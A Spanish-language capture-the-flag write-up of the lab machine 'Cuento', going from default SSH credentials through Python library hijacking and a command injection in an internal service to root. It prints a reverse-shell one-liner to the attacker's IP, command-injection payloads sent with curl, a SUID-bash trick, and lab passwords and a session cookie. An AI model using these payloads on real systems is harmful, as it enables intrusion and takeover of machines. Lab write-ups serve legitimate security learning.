# 🖥️ Write-Up: [CUENTO](https://labs.thehackerslabs.com/machine/159)

## 📌 Información General
    - Nombre de la máquina: Cuento
    - Plataforma: The Hackers Labs
    - Dificultad: Profesional
    - Creador: noesholkuw
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root

---
## 🔍 Enumeración

Nuestra ip es la **10.0.2.15** 

La máquina Cuento tiene la ip **10.0.2.4**

### Descubrimiento de Puertos

Comenzamos enumerando todos los puertos abiertos de la máquina usando la herramienta **nmap**.



La máquina tiene abiertos los puertos 22 y 8080, así que vamos a volver a utilizar **nmap** para descubrir que servicios y versiones están ejecutando.



Como no disponemos de credenciales para conectarnos por el servicio ssh del puerto 22, vamos a analizar el puerto 80.

### Puerto 80

Si accedemos con el navegador vemos un menú para realizar preguntas a una herramienta de Inteligencia Artificial.



Si intentamos inyectar comandos o realizar cualquier otra pregunta siempre obtenemos la misma serie de respuestas preestablecidas.



Procedemos a enumerar subdirectorios y subdominios, pero no encontramos nada.


## 🔑 Acceso SSH
### vboxuser

La máquina es un **XUbuntu** con una interface gráfica, si nos fijamos vemos a tres usuarios, **churrumais, raton y vboxuser**. De ellos, el usuario **vboxuser** nos llama la atención.



Si buscamos en Internet la contraseña por defecto de este usuario encontramos **changeme**, por lo que vamos a probar a conectarnos por ssh con estas credenciales. **vboxuser** : **changeme**

```bash
ssh vboxuser@10.0.2.4
```

Conseguimos acceder a la máquina. 

## 🧗 Escalada de Privilegios
### raton


Revisando el directorio de **raton**, encontramos un archivo con sus credenciales en **/home/raton/NLWeb/.env**



Nos convertimos en el usuario **raton** con ellas.



### churrumais

Si revisamos los permisos **sudoers** de **raton**, vemos que puede ejecutar como el usuario **churrumais** un script de Python.



Si revisamos ese script, vemos que utiliza diferentes librerías de Python y además en la carpeta en la que se encuentra tenemos permisos de escritura, por lo que vamos a proceder a realizar un **Python Library Hijacking**.

Para ello en el directorio del script **raton.py** creamos un archivo **psutil.py** al que le agregamos en su interior una reverse shell.

```python
import os; os.system("bash -c 'bash -i >& /dev/tcp/10.0.2.15/443 0>&1'")
```

Nos ponemos en escucha en nuestro equipo con **netcat**

```bash
nc -nlvp 443
```

Y ejecutamos el script como el usuario **churrumais**

```bash
sudo -u churrumais /usr/bin/python3 /home/raton/Desktop/raton.py
```

Y ya somos el usuario **churrumais**, ahora realizamos el tratamiento de la **tty**.




### Root

Si revisamos el **.bash_history** del **churrumais** vemos una serie de peticiones a un servicio que se ejecuta internamente en el puerto 5000, unas credenciales y varios intentos de una inyección de comandos en este servicio. 



Comprobamos si en el puerto 5000 se está ejecutando un servicio.



Aunque ponga **0.0.0.0:5000** no podemos acceder a él, así que como disponemos de las credenciales ssh de **raton**, vamos a utilizar este servicio para realizar **Port Forwarding** y traernos el servicio interno del puerto 5000 de la máquina a nuestro puerto 5000

```bash
ssh -L 5000:127.0.0.1:5000 raton@10.0.2.4
```

Ahora si accedemos a nuestro localhost por el puerto 5000 veremos el servicio interno de la máquina.




Nos logueamos con las credenciales que hemos visto en el **.bash_history** --> **churrumais** : **VillaeEla13**

Copiamos nuestra cookie de sesión.



Y la utilizamos en la petición con **curl** del **.bash_history**. Vamos a intentar ejecutar el comando **id** de la misma forma que ponía.

```bash
curl -b "session=.eJwlzjkOg0AMQNG7TJ1iFtsYLhN5FRRphlBFuXuQ0v3iF-9Tnjnj3Mv2nlc8yvPwshVNIeDGklDJIFeyBiNDeTRLgQ4aXfAeDJM1I3S4r1Rr3mEMvLgGpiwoYBRhnUZUW0cEOgKZu1sA96qgxAhhhqPVxkOaSLkh1xnzr7H9mvN6yXGW7w9RnzV9.aUAkuA.4Ep2spO7En-7qEX4Uhr5IYbmqU8" -X POST http://127.0.0.1:5000/search_logs --data-urlencode "filter=' ; id #"
```



Podemos ejecutar comandos como **root**, por lo que vamos a darle permisos **SUID** a la bash.

```bash
curl -b "session=.eJwlzjkOg0AMQNG7TJ1iFtsYLhN5FRRphlBFuXuQ0v3iF-9Tnjnj3Mv2nlc8yvPwshVNIeDGklDJIFeyBiNDeTRLgQ4aXfAeDJM1I3S4r1Rr3mEMvLgGpiwoYBRhnUZUW0cEOgKZu1sA96qgxAhhhqPVxkOaSLkh1xnzr7H9mvN6yXGW7w9RnzV9.aUAkuA.4Ep2spO7En-7qEX4Uhr5IYbmqU8" -X POST http://127.0.0.1:5000/search_logs --data-urlencode "filter=' ; chmod u+s /bin/bash #"
```

Nos lanzamos una bash privilegiada con `bash -p` y ya somos **root**.

